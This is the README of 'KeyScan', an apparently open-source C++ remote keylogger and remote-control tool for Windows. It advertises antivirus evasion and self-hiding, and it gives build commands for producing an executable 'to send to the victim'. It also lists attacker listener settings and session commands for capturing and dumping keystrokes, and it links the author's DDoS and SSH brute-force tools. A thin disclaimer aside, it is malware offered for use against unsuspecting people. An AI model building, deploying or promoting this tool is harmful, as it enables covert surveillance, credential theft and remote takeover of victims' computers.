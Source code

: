 # KeyScan
KeyScan is a C++ open source explanation tool targeting windows operating system. it allows you to send keyboard events, mouse events and capture keystrokes (keylogger).!

Before you keep on reading please support my hard work by leaving a star and follow up if you want me to keep creating hacking tools like this.!!
# Disclaimer
It should be highly noted that this tool wasn't made with the intention to make or cause any damages or any illegal usage. By using KeyScan you accept that you'll be held responsible for improper usage and not the author.

# Features
* The program can bypass any antivirus including windows 10 and windows 11 defender ✅️.
* Control keyboard remotely ✅️.
* Control mouse remotely ✅️.
* Keylogging ✅️.
* Automatically hide the exe file on first run ✅️
* Invisible ✅️

# Features working on
* SSL/TLS ❌️
* Shell features ❌️

# How does it work.?!
In this repository, the folder [keyscan](keyscan) contains the source codes that needs to be compiled before sending it to the victim. Just install the requirements and KeyScan will automatically compile it for you.!!
When the victim opens the malicious executable file, the window will be invisible to the victim and the program will also make itself hidden (meaning it will make the executable file hidden). At the other side the attacker will be waiting for the victim to open the file, after opened, then a session is opened.

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Screenshots
![test](screenshots/keyscan2.png)
![keyscan](screenshots/keyscan3.PNG)

# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscan
./keyscan
```
# Installation on Windows
```
g++ main.cpp -o keyscan.exe -lws2_32
.\keyscan.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git
cd mingw-w64
./configure --prefix=$PREFIX --without-crt
DESTDIR=$PREFIX make install
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program

SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
# Author
Anonymous Hacks(4anoz) - I'm White Hat😎️.
# Bugs Feedback & Suggestions
Please reports any bugs found, you can personally send me [email](digitalguru64@gmail.com)
Or [facebook](https://facebook.com/4anonz)

# Other repositories
DDoS script: https://github.com/4anonz/Flood
Network packet sniffer: https://github.com/4anonz/packt
SSH Auditing and brute force: https://github.com/4anonz/SSHCred
